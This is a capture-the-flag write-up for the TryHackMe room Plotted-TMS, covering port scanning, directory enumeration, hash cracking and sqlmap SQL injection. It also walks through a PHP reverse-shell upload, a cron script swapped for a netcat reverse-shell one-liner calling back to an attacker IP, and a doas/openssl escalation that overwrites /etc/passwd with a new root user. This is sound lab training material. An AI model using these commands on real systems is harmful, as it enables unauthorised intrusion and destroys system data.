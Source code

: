 ```yaml
---
description: https://tryhackme.com/room/plottedtms
---
```


# Plotted-TMS

## Nmap

```
nmap 10.10.225.219 -p- -sS -sV

PORT    STATE    SERVICE VERSION
22/tcp  open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
53/tcp  filtered domain
80/tcp  open     http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Starting out on port 80 we find the Apache2 default page.

![](<../../../.gitbook/assets/image (11) (1) (2).png>)

Directory enumeration with `feroxbuster` produces a few interesting results.

![](<../../../.gitbook/assets/image (179).png>)

Both passwd and shadow pages have the same `base64` encoded value.

![](<../../../.gitbook/assets/image (185).png>)

After decoding...

```
echo 'bm90IHRoaXMgZWFzeSA6RA==' | base64 -d
# Returns ...                                                                                                       
not this easy :D    
```

We also find `id_rsa` under the /admin directory. This again, contains a `base64` encoded string that is not of any use...

After thoroughly going through port 80 we can then move onto port 445. Port 445 is normally reversed for SMB, however on this system it is dedicated to HTTP.

Again, the root page points back to the Apache default page.

![](<../../../.gitbook/assets/image (347).png>)

```
feroxbuster -u http://10.10.136.15:445 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -s 200 
```

![](<../../../.gitbook/assets/image (1545).png>)

Browsing to the management directory brings us to the page shown below.

![](<../../../.gitbook/assets/image (723).png>)

Before attempting any login attempts on the target system we perform further directory enumeration and find some interesting results.

![](<../../../.gitbook/assets/image (2037).png>)

![](<../../../.gitbook/assets/image (218).png>)

Downloading the `db.sql` files we find some account hashes within the file.

![](<../../../.gitbook/assets/image (107).png>)

We can then crack both hashes with `Hashcat` against the `rockyou.txt` word list.

```
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
```

However, we are unable to proceed with our cracked credentials.

![](<../../../.gitbook/assets/image (145).png>)

Inspecting the responses through ZAP web proxy we find a SQL statement error has been shown on logon failure.

![](<../../../.gitbook/assets/image (369).png>)

Saving the original request file we can then utilize `sqlmap` to see if the target is vulnerable to SQL injection.

Enumerating available information with `sqlmap` I was able to build the command below.

```
sqlmap -r ~/Desktop/request.raw --batch --tables -D tms_db -T users --columns username,password --dump
```

Whilst the hashes are the same we do have some new information. We have a username of _puser_ for the credentials we cracked earlier.

![](<../../../.gitbook/assets/image (512).png>)

Testing the credentials against the login page proves successful.

![](<../../../.gitbook/assets/image (187).png>)

Looking at the account settings in the top right of the screen we see we can change our profile picture. As we know PHP is running on the target web server we can upload a reverse shell.

RevShells was then used to generate a PHP PentestMonkey reverse shell.

**RevShells:** [https://www.revshells.com/](https://www.revshells.com/)

Next, set up a `netcat` listener then open the user profile image in a new tab to execute the PHP shell.

![](<../../../.gitbook/assets/image (1572).png>)

Which should result in a shell.

![](<../../../.gitbook/assets/image (1309).png>)

We now have access as _www-data_ and can begin to enumerate the internal system.

![](<../../../.gitbook/assets/image (183).png>)

After going through some of the PHP files we find `initialize.php` contains sensitive information.

![](<../../../.gitbook/assets/image (368).png>)

Logging into `Mysql` with the credentials from `initialize.php` we are unable to pull any new information that we did not know already.

Further enumeration with `linpeas.sh` shows the script below is executed every minute by the user _plot\_admin_.

![](<../../../.gitbook/assets/image (363).png>)

Following the command below we can replace backup.sh with our own which will contain a `netcat` reverse shell.

```bash
# rename backup.sh
mv backup.sh backup_copy.sh

# Create our own backup.sh
touch backup.sh

# Echo in first line to define bash
echo '#!/bin/bash' > backup.sh

# echo in a nc reverse shell
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.28.192 4444 >/tmp/f' >> backup.sh

# Change permissions to make it executable
chmod 777 backup.sh
```

A short wait later we receive a reverse shell on our attacking system.

![](<../../../.gitbook/assets/image (408).png>)

Enumerating with `linpeas.sh` shows the `doas` binary is on the system which, essentially acts as an alternative to `sudo`.

![](<../../../.gitbook/assets/image (1068).png>)

GTFOBins provides relevant information on how to abuse the `openssl` binary.

**GTFOBins:** [https://gtfobins.github.io/gtfobins/openssl/#sudo](https://gtfobins.github.io/gtfobins/openssl/#sudo)

![](<../../../.gitbook/assets/image (220).png>)

We could quite easily grab the root flag using the method below:

```
doas -u root openssl enc -in /root/root.txt
```

A more destructive method; we can echo a new root user into `/etc/passwd`. This will wipe the contents of `/etc/passwd`, however we will have a root shell.

```
// echo 'viper:$1$luDZJMtq$4ljcR6cSb41FraIUQIiQx/:0:0:viper:/home/viper:/bin/bash' | doas -u root openssl enc -out "/etc/passwd"
```

then `su` to switch user and enter the password `Password123`.

![](<../../../.gitbook/assets/image (143).png>)

![](<../../../.gitbook/assets/image (1) (1) (1) (2) (1).png>)
